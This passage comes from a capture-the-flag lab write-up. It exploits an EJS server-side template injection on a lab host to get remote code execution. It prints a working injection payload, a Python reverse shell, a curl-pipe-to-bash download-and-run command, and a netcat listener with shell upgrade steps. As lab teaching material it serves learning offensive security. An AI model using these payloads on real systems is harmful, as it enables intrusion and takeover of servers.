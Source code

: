You can find more information about the vulnerability and the **PoC** [here in this article](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

Testing the **PoC** payload from the article, we find that it works, as we receive a request on our server.

```
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.11.72.22');s
```
{: .wrap }

![Web 80 Admin Settings Seven](web_80_admin_settings7.webp){: width="1000" height="500" }

```console
10.10.116.77 - - [31/Oct/2024 05:03:44] "GET / HTTP/1.1" 200 -
10.10.116.77 - - [31/Oct/2024 05:03:44] "GET / HTTP/1.1" 200 -
10.10.116.77 - - [31/Oct/2024 05:03:45] "GET / HTTP/1.1" 200 -
```

Now, we can use it to obtain a shell, first by using our web server to serve a reverse shell payload.

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'                                     

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{: .wrap }

After that, we can modify our payload to make the server download and run our reverse shell payload.

```console
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.11.72.22|bash');s
```
{: .wrap }

Sending our payload, we can see that the server hangs, and we receive a shell as the `web` user.

![Web 80 Admin Settings Eight](web_80_admin_settings8.webp){: width="1000" height="500" }

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.116.77] 49286
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
python3 -c 'import pty;pty.spawn("/bin/bash");'
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg
[1]  + continued  nc -lvnp 443

web@cyprusbank:~/app$ 
```
